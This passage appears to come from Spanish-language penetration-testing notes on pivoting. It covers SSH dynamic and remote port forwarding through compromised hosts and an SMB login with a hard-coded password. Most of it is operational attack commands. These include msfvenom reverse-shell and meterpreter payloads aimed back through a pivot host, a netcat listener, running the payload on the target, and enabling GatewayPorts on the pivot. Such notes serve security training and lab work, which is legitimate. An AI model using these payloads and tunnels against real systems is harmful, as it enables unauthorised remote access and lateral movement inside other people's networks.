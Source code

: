 	smbclient -p 4455 //$pwned/info -U hr_admin --password=Welcome1234
	```

#### Dynamic Port Forwarding
Crea un túnel SOCKS (proxy) en el puerto especificado. Cuando se ejecute una herramienta sobre proxychains, para `$target` será como si la conexión fuera de `$pivot`
```bash
# Si lo hacemos desde nuestra pwnbox. Solo nuestra máquina puede conectarse al puerto 9050
ssh -NfD 9050 ubuntu@$pivot
# El siguiente comando permite que cualquier máquina se conecte al puerto 9050. Si lo hacemos desde $pwned
ssh -NfD 0.0.0.0:9050 ubuntu@$pivot
# IMPORTANTE. Después de esto /etc/proxychains4.conf de $pwnbox tener la siguiente configuración:
socks5 $pwned 9050
```
#### Remote port forwarding
##### `$target` se comunica con `$pwnbox` a través de `$pivot`
Tenemos aceso a `$pivot` y no tenemos acceso a `$target` desde nuestra pwnbox, pero sí desde `$pivot`. En este caso queremos que `$target` se comunique con `$pwnbox`. Supongamos que queremos que `$target` envíe una revshell a `$pwnbox`
- En este caso se pone en escucha el servidor ssh, `$pivot` en el puerto 44444, redirigiendo todo el tráfico al puerto 4444 de `$pwnbox`. Desde `$pwnbox`: 
	```bash
	# En pivot el tráfico 8080 solo estaría accesible localmente
	 ssh -R 44444:localhost:4444 username@$pivot -vN
	```
- Creamos un exploit en nuestra `$pwnbox` 
	```bash
	#Ejemplo meterpreter linux:
	 msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=$pivot -f elf -o revshell.exe LPORT=44444
	# Ejemplo revshell para nc en linux:
	msfvenom -p linux/x64/shell_reverse_tcp lhost=$pivot -f elf -o revshell.exe LPORT=44444
	```
- Nos ponemos en escucha en `$pwnbox`
	```bash
	nc -nvlp 4444
	```
- Ejecutamos el exploit en `$target`
	```
	./revshell.exe
	```

- El archivo de configuración `/etc/ssh/sshd_config` debe tener el valor;
	```bash
	GatewayPorts yes
	```
- Si se ha cambiado el valor, hay que reiniciar el servicio 
	```bash
	sudo systemctl restart ssh
	```
##### `$target` se comunica con `$pwnbox`: desde `$pwned` a través de `$pivot`
Escenario en el que desde `$pwnbox` tenemos una máquina comprometida, `$pwned`, que tiene acceso a `$pivot` vía ssh  y `$pivot` a su vez tiene visibilidad con `$target`. Queremos que `$target` se comunique con `$pwnbox`. Supongamos que queremos descargar un archivo que está servido en el puerto 8000 de nuestra `$pwnbox`
- Hacemos que esté en escucha `$pivot` en el puerto 8888, redirigiendo todo el tráfico a el puerto 8000 de nuestra pwnbox. Desde `$pwned`